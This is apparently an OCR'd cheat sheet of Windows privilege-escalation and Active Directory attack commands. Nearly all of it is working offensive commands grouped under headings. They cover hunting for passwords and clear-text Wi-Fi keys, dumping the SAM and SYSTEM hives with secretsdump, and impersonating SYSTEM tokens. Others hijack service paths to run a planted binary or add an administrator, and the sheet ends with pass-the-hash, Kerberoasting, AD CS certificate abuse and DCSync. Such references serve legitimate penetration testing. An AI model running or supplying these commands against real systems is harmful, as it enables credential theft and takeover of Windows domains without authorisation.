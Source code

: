 # SYSTEM ENUMERATION
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
hostname
wmic qfe
wmic logicaldisk get caption,filesystem,freespace,size,volumename

# USER ENUMERATION
whoami /priv
whoami /groups
net user
net user <username>
net localgroup

# NETWORK ENUMERATION
ipconfig /all
arp -a
route print
netstat -ano

# HUNTING PASSWORDS
findstr /si password *.txt
netsh wlan show profile [SSID] key=clear

# FIREWALL / ANTIVIRUS
sc query windefend
sc queryex type=service
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config

# WINDOWS SUBSYSTEM FOR LINUX
where /R C:\windows bash.exe
where /R C:\windows wsl.exe

# POTATO ATTACK
multi/script/web_delivery
run post/multi/recon/local_exploit_suggester
use exploit/windows/local/ms16_075_reflection
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
shell
getsystem

# RUNAS
cmdkey /list
C:\Windows\System32\runas.exe /user:[domain/user] /savecred "C:\Windows\System32\cmd.exe /c [command] > [output]"

# REGSVC ACL
reg save HKLM\SAM SAM --> download sam
reg save HKLM\SYSTEM SYSTEM  --> download system

	- secretsdump.py local -sam sam -system system

Get-Acl -Path hklm:\System\CurrentControlSet\services\ | format-list
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\temp\x.exe /f
sc start regsvc

# STARTUP APPS
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

# DLL HIJACKING
sc stop <service> & sc start <service>
ProcMon filter: "NAME NOT FOUND" and ends with ".dll"

# BINARY PATHS
accesschk64.exe -uwcv Everyone *
sc qc <service>
sc config <service> binpath= "net localgroup administrators [user] /add"
sc stop <service> & sc start <service>

# UNQUOTED SERVICE PATHS
# (Run PowerUp.ps1 and replace files in the unquoted directory path)

# CVE-2019-1388
# Follow the manual GUI steps for privilege escalation.

# POWERSHELL SCRIPTS
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope LocalMachine
.\PowerUp.ps1
Invoke-AllChecks

# AD ENUMERATION (NO CREDENTIALS)
net user /DOMAIN
net group /DOMAIN
net share
net localgroup

# AD ENUMERATION (WITH CREDENTIALS)
GetNPUsers.py domain/user -dc-ip <IP> -no-pass
ldapsearch -x -H ldap://<IP> -b "dc=domain,dc=com"

# KERBEROASTING
GetSPN.ps1
Invoke-Kerberoast.ps1

# OVERPASS THE HASH
sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<NTLM_HASH> /run:PowerShell.exe

# PSExec
psexec.py <domain>/<user>:<pass>@<IP>

# AD CS ATTACK
certipy find -dc-ip <IP> -u <user> -p <pass>
certipy req -ca <CA_NAME> -target <DC> -u <user> -p <pass>
certipy auth -pfx <admin.pfx> -dc-ip <IP>
evil-winrm -i <target> -u administrator -H <HASH>

# DCSYNC ATTACK
secretsdump.py <domain>/<user>@<IP> -hashes <HASH>
rpcclient -U "" <IP>